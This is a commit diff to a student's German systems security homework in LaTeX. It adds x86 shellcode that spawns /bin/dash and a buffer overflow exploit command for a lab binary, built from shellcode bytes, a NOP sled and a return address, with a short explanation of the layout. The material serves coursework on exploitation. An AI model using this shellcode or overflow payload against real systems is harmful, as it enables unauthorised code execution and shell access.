

Before and after one commit to Lemrator/Homework, a LaTeX document (Übung 3/syssec.tex): part of page 2 of 5 before the commit and two parts of pages 2 and 3 of 6 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
update assignment

```diff
--- a/Übung 3/syssec.tex
+++ b/Übung 3/syssec.tex
@@ -35,12 +35,39 @@ Eine Authentifizierung mithilfe eines Buffer Overflows wie zuvor ist somit nicht
 		\caption{Hier funktioniert die zuvor verwendete Methodik nicht}
 	\end{figure}
 	\section*{Aufgabe 3: Shellcode}
+	\begin{lstlisting}[frame=single, caption = kommentierter Maschinencode, captionpos = b]
+global _start
+
+_start:
+;----------------------------------
+; TODO
+; Your shellcode spawning /bin/dash goes here
+xor eax, eax 	;eax leeren
+push eax 	;0-Byte in den Stack geben
+push 68736164h 	;Dash auf den Stack pushen
+push 2f2f2f2fh 	;4 ''/'' als Padding
+push 6e69622fh 	;''bin'' auf stack pushen
+mov ebx, esp 	;2. Parameter des syscalls (Pointer auf Stack)
+mov al, 0xb	;1. Parameter des syscalls (execv)
+int 0x80	;interrupt: syscall
+
+; ------------ End of file ------------
+
+	\end{lstlisting}
 	\section*{Aufgabe 4: Stack-Based Buffer Overflow}
 	\subsection*{a)}
 	Das Programm ''basic\_overflow'' muss folgendermaßen in der Shell eingegeben werden:
-./basic\_overflow \$(python -c 'print "$\backslash$x31$\backslash$xc9$\backslash$xf7$\backslash$xe1$\backslash$x51$\backslash$x68$\backslash$x64$\backslash$x61$\backslash$x73$\backslash$x68$\backslash$x68$\backslash$x2f$\backslash$x2f$\backslash$x2f$\backslash$x2f$\backslash$x68$\backslash$x2f$\backslash$x62$\backslash$x69$\backslash$x6e$\backslash$x89$\backslash$xe3$\backslash$xb0$\backslash$x0b$\backslash$xcd$\backslash$x80" + "$\backslash$x90"*86 + "$\backslash$xcc$\backslash$xce$\backslash$xff$\backslash$xff"')
+	\begin{lstlisting}[frame=single, caption="Skript für Aufgabe 4a) (Code entspricht einer Zeile!), captionpos=b"]
+./basic_overflow \$(python -c 'print "\x31\xc9\xf7\xe1\x51
+\x68\x64\x61\x73\x68\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e
+\x89\xe3\xb0\x0b\xcd\x80" + "\x90"*86 + "\x4c\xcf\xff\xff"')
+	\end{lstlisting}
+
 	Dabei ist das \$-Zeichen zu beachten, welches eine Subshell aufruft, womit man in einem Shellbefehl einen weiteren Befehl ausführen kann.
-Die Angabe ist hier in Little-Endian. Der erste Teil ist der Shellcode (von $\backslash$x31 bis zum ersten +) danach kommt das NOP-Padding. Nach dem Padding kommt die Return-Adresse, welches das Programm ausgibt.
+	Die Angabe ist hier in Little-Endian. Der erste Teil ist der Shellcode (von $\backslash$x31 bis zum ersten +) danach kommt das NOP-Padding. Nach dem Padding kommt die Return-Adresse, welches das Programm ausgibt. Hier wurde der Shellcode etwas umgeformt.
+	\subsection*{b)}
+	\texttt{---}
+	\pagebreak
 	\section*{Aufgabe 5:  Smashing the Stack for Fun and Exam Prep}
 	\subsection*{a)}
 	\begin{figure}[h]
```
Also changed, not shown: Übung 3/syssec.pdf (added), Übung 3/syssec.tex (6 more changed lines). Lines whose indentation alone changed are shown as unchanged.
